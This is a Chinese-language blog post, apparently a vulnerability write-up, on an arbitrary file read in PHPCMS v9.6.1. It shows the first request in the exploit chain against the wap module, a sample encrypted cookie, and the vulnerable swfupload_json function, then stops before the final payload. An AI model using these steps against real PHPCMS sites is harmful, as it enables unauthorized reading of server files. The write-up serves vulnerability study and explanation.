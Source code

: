 ```yaml
---
layout: post
title: "PHPCMS v9.6.1 任意文件讀取"
description: ""
date: 2023-07-11
categories:
  - CVE
  - PHPCMS
author: ""
tags: ['CVE', 'PHPCMS', '任意文件讀取']
---
```




# PHPCMS v9.6.1 任意文件讀取
###### tags: `phpcms`

這個漏洞與前一個漏洞利用方法類似。都是東拼西湊出payload。



首先 wap 模塊拿到一個cookie  這個cookie 是被sys_auth 加密的


```
payload:
http://localhost/index.php?m=wap&c=index&siteid=1



cookie:
NpHtD_siteid:8fd5A2tsnl0lQ3wc3-IGFybAOxdmDySOEzWntfgG

```

這個目地是為了下一個作者看上的函數，可以接收get 參數，參數最後則是要 轉成json格式，並且 set_cookie

phpcms/modules/attachment/attachments.php
```
public function swfupload_json() {
    $arr['aid'] = intval($_GET['aid']);
    $arr['src'] = safe_replace(trim($_GET['src']));
    $arr['filename'] = urlencode(safe_replace($_GET['filename']));
    $json_str = json_encode($arr);
    $att_arr_exist = param::get_cookie('att_json');
    $att_arr_exist_tmp = explode('||', $att_arr_exist);
    if(is_array($att_arr_exist_tmp) && in_array($json_str, $att_arr_exist_tmp)) {
        return true;
    } else {
        $json_str = $att_arr_exist ? $att_arr_exist.'||'.$json_str : $json_str;
        param::set_cookie('att_json',$json_str);
        return true;			
    }
}
```

